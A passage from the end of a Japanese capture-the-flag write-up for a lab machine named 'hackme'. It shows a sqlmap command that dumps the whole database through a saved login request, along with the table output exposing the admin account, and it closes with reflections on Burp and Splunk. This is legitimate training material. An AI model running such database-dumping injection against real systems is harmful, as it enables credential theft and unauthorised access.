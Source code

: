 All

```sh
sqlmap -r ./login.txt -D hackme --dump-all -batch

Table: config
[1 entry]
+----+--------+---------+
| id | title  | value   |
+----+--------+---------+
| 1  | signup | invite  |
+----+--------+---------+

Table: users
[1 entry]
+----+------------------+------------+--------+----------+--------------+----------+
| id | email            | name       | role   | status   | password     | username |
+----+------------------+------------+--------+----------+--------------+----------+
| 1  | admin@hackme.thm | Admin User | admin  | 1        | [REDACTED] | admin    |
+----+------------------+------------+--------+----------+--------------+----------+
```

この認証情報でログインし、Signup を有効にして 80 ポートにアクセスすると、ゲームセット。

## 振り返り

- Burp の Target を見るといつの間にか重要なリクエストが出ていたというパターンを最初から最後まで何度も繰り返した印象。
- $urlAdminPanel の値のままでは Forbidden になるところが微妙に意地が悪いと思った。
- Splunk は非常に簡単だった。それだけ習熟したと言えるかもしれない。
